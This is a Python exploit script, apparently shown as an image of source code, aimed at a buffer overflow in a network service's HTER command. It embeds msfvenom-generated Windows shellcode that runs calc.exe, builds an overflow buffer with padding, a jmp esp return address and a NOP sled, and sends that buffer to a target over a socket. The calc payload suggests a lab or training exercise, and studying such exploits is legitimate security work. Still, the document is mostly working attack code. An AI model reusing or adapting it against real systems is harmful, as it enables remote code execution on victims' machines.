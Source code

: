 ```python
# msfvenom -p windows/exec CMD=calc.exe -b '\x00\x0A' -f python -v payload
payload =  b""
payload += b"\xdb\xd7\xbe\x81\x73\xbe\xe6\xd9\x74\x24\xf4\x5a"
payload += b"\x33\xc9\xb1\x31\x83\xc2\x04\x31\x72\x14\x03\x72"
payload += b"\x95\x91\x4b\x1a\x7d\xd7\xb4\xe3\x7d\xb8\x3d\x06"
payload += b"\x4c\xf8\x5a\x42\xfe\xc8\x29\x06\xf2\xa3\x7c\xb3"
payload += b"\x81\xc6\xa8\xb4\x22\x6c\x8f\xfb\xb3\xdd\xf3\x9a"
payload += b"\x37\x1c\x20\x7d\x06\xef\x35\x7c\x4f\x12\xb7\x2c"
payload += b"\x18\x58\x6a\xc1\x2d\x14\xb7\x6a\x7d\xb8\xbf\x8f"
payload += b"\x35\xbb\xee\x01\x4e\xe2\x30\xa3\x83\x9e\x78\xbb"
payload += b"\xc0\x9b\x33\x30\x32\x57\xc2\x90\x0b\x98\x69\xdd"
payload += b"\xa4\x6b\x73\x19\x02\x94\x06\x53\x71\x29\x11\xa0"
payload += b"\x08\xf5\x94\x33\xaa\x7e\x0e\x98\x4b\x52\xc9\x6b"
payload += b"\x47\x1f\x9d\x34\x4b\x9e\x72\x4f\x77\x2b\x75\x80"
payload += b"\xfe\x6f\x52\x04\x5b\x2b\xfb\x1d\x01\x9a\x04\x7d"
payload += b"\xea\x43\xa1\xf5\x06\x97\xd8\x57\x4c\x66\x6e\xe2"
payload += b"\x22\x68\x70\xed\x12\x01\x41\x66\xfd\x56\x5e\xad"
payload += b"\xba\xa9\x14\xec\xea\x21\xf1\x64\xaf\x2f\x02\x53"
payload += b"\xf3\x49\x81\x56\x8b\xad\x99\x12\x8e\xea\x1d\xce"
payload += b"\xe2\x63\xc8\xf0\x51\x83\xd9\x92\x34\x17\x81\x7a"
payload += b"\xd3\x9f\x20\x83"

buf = b""
buf += b"HTER "
buf += b"f"
buf += b"41" * 1020
buf += b'af115062' # jmp esp
buf += bytes_to_hexbytestring(NOP * 16)
buf += bytes_to_hexbytestring(payload)
buf += b"44" * (size - int(len(buf) / 2))
buf += b"\n"

s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
s.connect((target_ip, target_port))

# receive banner
banner = s.recv(1024)
print(banner)

# send evil buffer
print(f"Sending evil buffer with {len(buf)} bytes and payload length {size}...")
s.send(buf)

# receive response
a = s.recv(1024)
print(a)

s.close()
print("Done!")
```
